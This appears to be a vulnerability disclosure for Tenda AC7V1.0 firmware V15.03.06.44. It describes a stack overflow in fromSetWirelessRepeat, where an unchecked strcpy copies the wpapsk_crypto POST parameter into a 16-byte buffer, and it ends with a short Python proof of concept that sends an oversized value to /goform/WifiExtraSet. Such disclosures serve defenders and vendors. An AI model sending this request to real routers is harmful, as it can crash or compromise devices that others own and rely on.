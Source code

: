 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2776.html

## Affected version

 AC7V1.0 V15.03.06.44

## Vulnerability details

In the Tenda AC7V1.0 V15.03.06.44 has a stack overflow vulnerability located in the `fromSetWirelessRepeat` function. This function accepts the `wpapsk_crypto` parameter from a POST request by variable `wpapsk_crypto` and passes it to the `set_repeat5` function.

![image-20240318161747697](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318161747697.png)

The array `wpapsk_cryptovalue` is fixed at 16 bytes. However, since the user has control over the input of `wpapsk_crypto`, the statement `strcpy(wpapsk_cryptovalue, wpapsk_crypto);` leads to a buffer overflow. The user-supplied `wpapsk_crypto` can exceed the capacity of the `wpapsk_cryptovalue` array, thus triggering this security vulnerability.

![image-20240318161848783](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318161848783.png)

![image-20240318161820780](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318161820780.png)

## PoC

```python
import requests

IP = '192.168.84.101'
url = f"http://{IP}/goform/WifiExtraSet?"
url += "wl_mode=0&security=wpapsk&wpapsk_key=aaaaaaa&wpapsk_crypto=" + "s" * 0x600
# url += "wifi_chkHz=0&wl_mode=0&security=wpapsk&wpapsk_key=aaaaaaa&wpapsk_crypto=" + "s" * 0x600

response = requests.get(url)
```

![](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240318162448019.png)
